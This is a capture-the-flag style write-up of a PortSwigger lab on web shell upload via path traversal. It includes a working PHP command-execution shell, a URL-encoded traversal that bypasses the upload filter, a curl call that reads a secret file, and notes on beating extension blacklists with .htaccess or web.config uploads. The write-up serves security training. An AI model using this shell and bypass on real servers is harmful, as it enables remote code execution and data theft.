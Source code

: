 # 1f3 - Web shell upload via Path Traversal \[PortSwigger Lab]

This lab contains a vulnerable image upload function. The server is configured to prevent execution of user-supplied files, but this restriction can be bypassed by exploiting a secondary vulnerability.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret.

You can log in to your own account using the following credentials: `wiener:peter`

### Solution:

So, User's page includes avatar upload function. just to upload `mal.php` with contents `<?php echo system($_GET['command']); ?>` will just return plaintext version of this script.

<figure><img src="../../../.gitbook/assets/Pasted image 20240720173537.png" alt=""><figcaption><p>calling mal.php from url</p></figcaption></figure>

it also seems that uploading `mal.php` with path traversal `../mal.php` still uploads it to `files/avatars/mal.php`, which means that it's cutting traversals in path.

<figure><img src="../../../.gitbook/assets/Pasted image 20240720173821.png" alt=""><figcaption><p>calling mal.php file from API</p></figcaption></figure>

So all I had to do was obfuscating the path traversal to `..%2Fmal.php` which is same as `../mal.php`.

after changing a filename to this parameter and uploading it we get the following response

<figure><img src="../../../.gitbook/assets/uploaded.png" alt=""><figcaption><p>obfuscated mal.php filename bypassed defense mechanisms</p></figcaption></figure>

so the file is uploaded to `files/mal.php`

now we can just call this script using \[\[1a1b - cURL|cURL]] to get the response

```
curl -X GET "https://0a3c00e4049c901c802ee994009d003a.web-security-academy.net/files/mal.php?command=cat%20/home/carlos/secret"


jziR****************************jziR****************************
```

The secret: jziR\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*\*

***

Another obvious way to prevent users from uploading certain files is to blacklist these file extensions like `php`. This practice is still flawed since its difficult to explicitly blacklist every file that can be executed. such blacklists can be sometimes bypassed using lesser known, alternative file extensions like `.php5` or `.shtml` and so on.

As previously mentioned, some servers won't let certain files to execute unless they are explicitly configured to do that.

As an example, before Apache server lets PHP files to execute, a developer might put something like the following in their `/etc/apache2/apache2.conf` file:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
	AddType application/x-httpd-php .php
```

Many servers also allow developers to create special config-files within individual directories to override global configuration parameters. Apache-specific servers for example will load directory-specific configuration from a file called `.htaccess`.

Similarly, directory-specific configuration can be made on IIS server using `web.config` file. This might include directives such as the following, where server only allows JSON files to be served to users:

```
<staticContent> 
	<mimeMap fileExtension=".json" mimeType="application/json" /> 
	</staticContent>
```

Web servers use these kinds of configuration files when present, but you're not normally allowed to access them using HTTP requests.

However, you may occasionally find servers that fail to stop you from uploading your own malicious configuration file. In this case, even if the file extension you need is blacklisted, you may be able to trick the server into mapping an arbitrary, custom file extension to an executable type.
